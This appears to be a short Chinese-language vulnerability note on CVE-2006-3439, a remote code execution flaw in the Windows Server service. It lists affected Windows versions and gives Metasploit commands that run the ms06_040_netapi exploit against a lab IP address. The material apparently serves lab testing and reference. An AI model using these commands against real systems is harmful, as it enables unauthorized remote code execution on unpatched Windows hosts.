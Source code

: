 ###  CVE-2006-3439

#### 描述

服务器服务中的缓冲区溢出允许包括匿名用户在内的远程攻击者通过精心制作的RPC消息执行任意代码

#### 影响版本

| Product              | CPU Architecture | Version | Update | Tested             |
| -------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000         |                  |         | SP4    | :heavy_check_mark: |
| Windows  Server 2003 |                  | R2      |        |                    |
| Windows  Server 2003 |                  |         | SP1    |                    |
| Windows  Server 2003 |                  |         | SP1    |                    |
| Windows  Server 2003 |                  |         |        |                    |
| Windows  Server 2003 |                  |         |        |                    |
| Windows Xp           |                  |         | SP1    |                    |
| Windows Xp           |                  |         | SP2    |                    |

#### 利用方式

msf 利用 测试系统windows server 2000 sp4 x86

```
use exploit/windows/smb/ms06_040_netapi
set RHOST 192.168.1.17
run
```

